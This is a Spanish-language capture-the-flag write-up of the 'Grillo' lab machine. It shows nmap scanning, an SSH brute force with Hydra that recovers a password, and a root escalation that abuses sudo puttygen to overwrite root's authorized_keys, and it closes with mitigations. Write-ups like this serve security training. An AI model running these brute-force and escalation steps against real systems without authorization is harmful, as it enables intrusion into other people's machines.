### Información General

|Campo|Detalle|
|---|---|
|Máquina|Grillo|
|Plataforma|TheHackersLabs|
|Sistema Operativo|Linux (Debian)|
|Dificultad|Fácil|
|IP|192.168.241.172|
|Fecha|03/09/2026|

### Resumen del Ataque

El reconocimiento con nmap reveló solo dos puertos abiertos: SSH (22) y HTTP (80), con la página por defecto de Apache. Revisando el código fuente de esa página se encontró un comentario dejado por el administrador pidiéndole a la usuaria `melanie` que cambiara su contraseña de SSH, filtrando así un nombre de usuario válido. Con ese usuario se lanzó un ataque de fuerza bruta con Hydra contra el rockyou.txt, obteniendo la contraseña `trustno1`. Tras acceder por SSH se recogió la primera flag y, revisando privilegios con `sudo -l`, se descubrió que `melanie` podía ejecutar `puttygen` como root sin contraseña. Abusando de ese binario para escribir una clave pública propia en `/root/.ssh/authorized_keys` se consiguió acceso SSH directo como root.

### Técnicas Usadas

- Escaneo de puertos completo con nmap (`-p-`) y posterior fingerprinting de servicios/versiones
- Análisis de código fuente HTML en busca de comentarios filtrados
- Fuerza bruta de credenciales SSH con Hydra + rockyou.txt
- Enumeración de privilegios sudo (`sudo -l`)
- Escalada de privilegios abusando de `puttygen` con permisos NOPASSWD para escribir `authorized_keys` de root (GTFOBins)

### Desarrollo

**1. Escaneo de puertos completo**

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 192.168.241.172
```



```
nmap -p 22,80 -sC -sV -oN allports 192.168.241.172
```

**2. Enumeración de versiones**



**3. Revisión web**

Acceso a `http://192.168.241.172/`, mostrando la plantilla por defecto de Apache.

```
http://192.168.241.172/
```



Revisando el código fuente de la página se encontró un comentario filtrando un usuario válido:



**4. Fuerza bruta de credenciales SSH**

Con el usuario `melanie` confirmado, se lanzó Hydra contra rockyou.txt:

```
hydra -l melanie -P /usr/share/wordlists/rockyou.txt ssh://192.168.241.172 -t 4
```



**5. Acceso inicial**

```
ssh melanie@192.168.241.172
```

```
melanie@grillo:~$ whoami
```



**6. Enumeración de usuarios del sistema**

```
melanie@grillo:~$ grep bash /etc/passwd
```



**7. Flag de usuario**

```
melanie@grillo:~$ cat user.txt 
```



**8. Enumeración de privilegios sudo**

```
melanie@grillo:~$ sudo -l
```



`puttygen` con NOPASSWD es una vía directa de escalada permite generar/convertir claves y escribir el resultado donde el usuario indique, incluyendo `/root/.ssh/authorized_keys`.

**9. Generación de par de claves propio**

```
melanie@grillo:~$ ssh-keygen -t rsa -b 2048 -f /tmp/key -N ""
```



**10. Abuso de puttygen para escribir authorized_keys de root**

```
melanie@grillo:~$ sudo puttygen /tmp/key -O public-openssh -o /root/.ssh/authorized_keys
```

**11. Acceso como root**

```
melanie@grillo:~$ ssh -i /tmp/key root@localhost
```

```
root@grillo:~# whoami
```



**12. Flag de root**

```
root@grillo:~# cd /root
root@grillo:~# cat root.txt 
914ea930fea11076f641cc3970187d29
```



### Lecciones Aprendidas

- Un comentario HTML aparentemente inocuo puede filtrar nombres de usuario válidos y facilitar drásticamente un ataque de fuerza bruta dirigido.
- Contraseñas presentes en diccionarios comunes (rockyou.txt) siguen siendo la puerta de entrada más habitual en máquinas de dificultad fácil.
- Cualquier binario con capacidad de escritura arbitraria de archivos (como `puttygen -O ... -o ...`) otorgado vía sudo NOPASSWD es, en la práctica, una escalada directa a root, esté o no pensado originalmente para eso.

### Medidas de Mitigación

- No dejar comentarios ni notas internas en el código fuente de páginas públicas; usar canales internos para comunicación entre administradores.
- Forzar políticas de contraseñas robustas y comprobarlas contra diccionarios conocidos (rockyou u otros) antes de darlas por válidas; limitar intentos de autenticación SSH (fail2ban, rate limiting).
- Revisar y restringir al mínimo los privilegios sudo NOPASSWD; nunca autorizar binarios con capacidad de escritura de archivos arbitrarios (`puttygen`, `tee`, editores, etc.) sin justificar y auditar el motivo.
- Auditar periódicamente `/root/.ssh/authorized_keys` y permisos del directorio `/root/.ssh`.
